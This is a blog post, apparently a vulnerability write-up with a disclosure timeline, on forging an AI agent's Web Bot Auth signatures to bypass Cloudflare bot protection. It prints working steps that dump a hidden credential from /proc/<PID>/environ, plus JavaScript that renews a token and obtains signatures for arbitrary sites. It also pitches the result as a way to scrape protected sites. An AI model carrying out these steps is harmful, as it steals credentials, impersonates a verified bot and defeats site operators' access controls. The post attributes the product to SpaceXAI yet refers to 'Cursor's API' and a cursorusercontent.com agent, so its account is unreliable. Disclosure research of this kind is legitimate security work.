


来源：https://nightd.dev/blog/impersonating-grok-bot-for-fun-and-no-profit/
取文：2026-11-05，直接下载

October 7, 2026·Written by Kevin7 min read

How I forged Grok Bot's Web Bot Auth signatures and used them to scrape sites behind Cloudflare.



A few months ago on August 11, 2026 SpaceXAI released an AI personal assistant named [Grok Bot](https://x.ai/bot). According to [Cloudflare Radar](https://radar.cloudflare.com/bots/directory/grok-bot) and browsing X it seems like it has been quite successful. However, while playing around with Grok Bot I noticed many odd things. One thing in particular drew my attention. While looking at requests in Chrome’s DevTools I noticed three headers used to cryptographically sign requests, `Signature`, `Signature-Input`, and `Signature-Agent`. I immediately recognized this is Web Bot Auth (WBA) and wondered how it was injected.

## What Is Web Bot Auth?[#](#what-is-web-bot-auth)

Web Bot Auth is a standard that verifies the identity of an automated bot such as AI agents by using `Signature` headers. Instead of relying on the `User-Agent` or IP allowlists, it requires bot operators to cryptographically sign their requests using a private key and publishing the corresponding public key ([JWK](https://www.rfc-editor.org/info/rfc7517/)) on their domain at `/.well-known/http-message-signatures-directory`. This allows site operators to prove a bot’s identity. You can find more details at Cloudflare’s [Web Bot Auth documentation](https://developers.cloudflare.com/bots/reference/bot-verification/web-bot-auth/) and their [announcement post](https://blog.cloudflare.com/web-bot-auth/) in partnership with [Browserbase](https://www.browserbase.com/blog/cloudflare-browserbase-pioneering-identity), a data acquisition company.

## How to Forge Signatures[#](#how-to-forge-signatures)

After creating a Bot and opening its desktop environment, I started digging around and I found a file of interest at `/usr/local/bin/sand-web-bot-auth.mjs`. This file is also contained in a package that can be directly downloaded from their CDN [here](https://public-asphr-vm-daemon-bucket.s3.us-east-1.amazonaws.com/sand-host-bundle/sand-host-bundle-latest.tgz). It appears to make a few calls to Cursor’s API to get the signing data and then inject them into Chrome via Chrome DevTools Protocol ([CDP](https://chromedevtools.github.io/devtools-protocol/)):

```
const { response, body } = await fetchWithTimeout(
  this.fetchImpl,
  this.endpoint, // /sand-box/web-bot-auth-signature
  {
    method: "POST",
    redirect: "error",
    headers: {
      authorization: `Bearer ${token}`,
      "content-type": "application/json",
    },
    body: JSON.stringify({ url: origin }),
  },
  this.timeoutMs,
  readSigningResponseBody,
);
```

```
consideredOrigin = requestUrl.origin;
const signed = await signer.getHeaders({ origin: requestUrl.origin });
if (signed != null && isSigningCandidate()) {
  headers = mergeRequestHeaders(request.headers, signed.headers);
  signatureSource = signed.source;
}

// ...

const continuation = { requestId: params?.requestId };
if (headers != null) continuation.headers = headers;
await browser
  .send("Fetch.continueRequest", continuation, sessionId)
  .catch(() => {});
```

Alright, but how do we get an auth token to call the API with? My first instinct was to run `printenv`. However, it didn’t contain the token. This is because in `/usr/local/bin/start-exec-daemon` they run:

```
unset SAND_GATEWAY_TOKEN SAND_INFERENCE_RENEWAL_CREDENTIAL SAND_EGRESS_TUNNEL_BEARER
```

This deletes the required token from the environment. However, the `sand-web-bot-auth.mjs` still needs the token to run. You can get the token by getting the process ID and then dumping the process environment variables:

```
ps -aux | grep sand-web-bot-auth.mjs
strings /proc/<PID>/environ | grep SAND_
```

And just like that, you have your very own `SAND_INFERENCE_RENEWAL_CREDENTIAL`. Now you can forge your very own Grok Bot signature headers with:

```
async function renewToken() {
  const renewResp = await fetch(
    new URL("/sand-box/inference-credential", baseUrl),
    {
      method: "POST",
      headers: {
        "content-type": "application/json",
      },
      body: JSON.stringify({
        credential: renewalCredential,
      }),
    },
  );

  const renewContent = await renewResp.json();
  if (!renewResp.ok || typeof renewContent?.accessToken !== "string") {
    throw new Error(`Token renewal failed: HTTP ${renewResp.status}`);
  }

  return renewContent.accessToken;
}

async function requestSigningData(accessToken, targetOrigin) {
  const sigResp = await fetch(
    new URL("/sand-box/web-bot-auth-signature", baseUrl),
    {
      method: "POST",
      headers: {
        authorization: `Bearer ${accessToken}`,
        "content-type": "application/json",
      },
      body: JSON.stringify({
        url: targetOrigin,
      }),
    },
  );

  const sigContent = await sigResp.json();

  return {
    status: sigResp.status,
    ...sigContent,
  };
}

const accessToken = await renewToken();
const signingData = await requestSigningData(accessToken, origin);
```

Result:

```
{
  "Signature":
    "sig1=:aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUSB3aHlhcmV5b3VyZWFkaW5ndGhpcw==:",
  "Signature-Input":
    'sig1=("@authority" "signature-agent");created=1789860743;expires=1789860833;keyid="Vuxu4khgzIe0b30Nd6hq2envAuVBFMTDqorSNIUb_Oo";alg="ed25519";nonce="xxxxxxxxxxxxxxxxxxxxxx";tag="web-bot-auth"',
  "Signature-Agent": '"https://cursorusercontent.com"',
}
```

The signature is valid for `90` seconds despite the API stating `cacheTtlSeconds: 30` seconds.

## Why Is This a Problem?[#](#why-is-this-a-problem)

Normally when you ask an agent to request a page it will make a tool call to that agent provider’s backend and sign the request as it’s making it. This way you have no control over the signing process. But here you have control of the Docker container which requests the signing signatures. This undermines the authenticity of the Web Bot Auth signatures since anyone can request a signing signature for any site and impersonate Grok Bot.

## How Do You Fix This?[#](#how-do-you-fix-this)

Instead, Grok Bot’s backend should [MITM](https://en.wikipedia.org/wiki/Man-in-the-middle_attack) traffic from outside the Docker container. This way the user has no control over the signing process. This also has the benefit of signing `curl` traffic from the terminal, not just Chrome. A more temporary fix could be restricting what IPs can invoke the signing endpoints to only the ranges of the AWS IPs Grok Bot runs.

Unrelated, but of note, if you look through the Docker container you’ll begin to notice there are many ways to detect Grok Bot as a website operator. For example, they don’t do enough patching of the browser environment and this often results in an infinite loop when met with a **managed** Cloudflare challenge.

## How Is This Useful?[#](#how-is-this-useful)

Some sites could potentially allowlist Grok Bot, but I see that as unlikely. In that case, you might be able to bypass their WAFs such as Cloudflare (5-second challenge). However, starting September 15th 2026, **[Cloudflare will allow AI crawlers by default](https://blog.cloudflare.com/accountable-mixed-use-ai-crawlers/)**. You could use the impersonated signature headers to scrape sites and bypass Cloudflare while pretending to be Grok Bot. I believe this can affect most sites protected by Cloudflare since default settings are powerful and not likely to be changed. However, it won’t affect sites that explicitly request a managed challenge for example via Security Rules or [disallow agents](https://developers.cloudflare.com/bots/additional-configurations/block-ai-bots/).

Below is a practical demonstration of this. On the left, a site is accessed through a suspicious IP and is blocked by Cloudflare (`Just a moment...`). On the right, that same site is accessed using that same suspicious IP but with forged Grok Bot Web Bot Auth signature headers, which is successful.



Demo image showing Cloudflare bypassed with WBA.

## Disclosure Timeline[#](#disclosure-timeline)

- *Sep 23, 2026*: The issue and a rough draft of this article was disclosed to X AI with a deadline and it was acknowledged.
- 🦗
- *Oct 7, 2026*: This article is published.

## Conclusion[#](#conclusion)

I’m currently seeking employment opportunities and would love to hear from you if you’re looking for someone with web reverse engineering skills, building scraping pipelines, or backend development. Please contact me via the email in the footer below.
